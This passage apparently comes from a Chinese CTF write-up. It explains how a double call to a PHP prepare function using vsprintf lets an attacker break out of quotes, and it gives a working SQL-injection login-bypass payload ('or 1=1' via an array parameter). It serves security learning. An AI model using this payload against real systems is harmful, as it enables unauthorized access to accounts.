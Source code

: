 ```php
        return $query;

    }
    public static function commit($query){
        $res = static::$db->query($query);
        if($res !== false){ 
                return $res;
            }
            else{
                die('Error in query.');
        }
    }
}
?>
```

prepare 方法会将 `%s` 替换成 `'%s'` , 然后用 vsprintf 将 `$args` 数组的内容依次填充到 `%s` 中

因为 login.php 中调用了两次 prepare, 所以在替换的过程中可以闭合引号 (不能直接闭合, 因为有 `real_escape_string`)

思路是先往 password 中传入 `%s`

```sql
SELECT * FROM `users` where password=md5(%s)

SELECT * FROM `users` where password=md5('%s') # 在 %s 两边加上单引号

SELECT * FROM `users` where password=md5('%s') # 将 %s 填充为 %s (没变)
```

这时候当第二次调用 prepare 填充 name 的时候就会出现问题

因为 vsprintf 接收的就是数组参数, 所以下面传一个 name 数组, 例如 `name[0]=123&name[1]=456`

```sql
SELECT * FROM `users` where password=md5('%s') and name=%s

SELECT * FROM `users` where password=md5(''%s'') and name='%s' # 在 %s 两边加上单引号

SELECT * FROM `users` where password=md5(''123'') and name='456' # 将 name 数组的内容填充到 %s
```

到最后一句会发现 123 前面的引号已经闭合了, 所以构造 payload 如下

```
password=%s&name[0]=) or 1=1 #&name[1]=123
```

sql 语句变为

```sql
SELECT * FROM `users` where password=md5('') or 1=1 # '') and name='123'
```

注入脚本就不写了

## ezjava prettyjs prettynote
